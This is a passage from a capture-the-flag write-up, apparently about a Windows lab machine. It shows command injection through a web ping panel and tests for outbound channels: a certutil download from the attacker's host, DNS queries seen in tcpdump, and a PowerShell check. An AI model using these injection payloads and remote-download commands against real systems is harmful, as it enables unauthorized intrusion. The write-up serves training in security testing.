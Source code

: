    C:\Users\0xdf>powershell -c echo yay
    yay

    C:\Users\0xdf>echo %ERRORLEVEL%
    0

    C:\Users\0xdf>powershell -c echod yay
    echod : The term 'echod' is not recognized as the name of a cmdlet, function, script file, or operable program. Check
    the spelling of the name, or if a path was included, verify that the path is correct and try again.
    At line:1 char:1
    + echod yay
    + ~~~~~
        + CategoryInfo          : ObjectNotFound: (echod:String) [], CommandNotFoundException
        + FullyQualifiedErrorId : CommandNotFoundException


    C:\Users\0xdf>echo %ERRORLEVEL%
    1



So if I enter `& dir || ping 10.10.14.14`, I don't get pings in
`tcpdump`, because the `dir` succeeds and ends the or. If I change that
to `& dir && ping 10.10.14.14`, I do get pings.

So now I can see if I can run PowerShell. I'll enter
`& powershell -c echo test || ping 10.10.14.14`. Unfortunately, I get
pings. So PowerShell is not available to me.

#### certutil

`certutil` is a good way to get files on Windows. I entered
`& certutil -urlcache -split -f http://10.10.14.14/test.txt \windows\temp\test.txt|| ping 10.10.14.14`
into the ping panel. Again, I got pings. This could fail for several
reasons. Perhaps it can't communicate out (I had a `nc` listening, and
it didn't reach me). But it also could have failed if it just couldn't
write to `\windows\temp\`.

#### nslookup

What about DNS outbound? I set up `tcpdump` and issued the following:
`& nslookup 0xdf.com 10.10.14.14`. I got queries:



    root@kali# tcpdump -ni tun0 udp port 53
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:32:41.022549 IP 10.10.10.106.64973 > 10.10.14.14.53: 1+ PTR? 14.14.10.10.in-addr.arpa. (42)
    09:32:43.044754 IP 10.10.10.106.64974 > 10.10.14.14.53: 2+ A? 0xdf.com. (26)
    09:32:45.035277 IP 10.10.10.106.64975 > 10.10.14.14.53: 3+ AAAA? 0xdf.com. (26)
    09:32:47.051044 IP 10.10.10.106.64976 > 10.10.14.14.53: 4+ A? 0xdf.com. (26)
    09:32:49.051423 IP 10.10.10.106.64977 > 10.10.14.14.53: 5+ AAAA? 0xdf.com. (26)


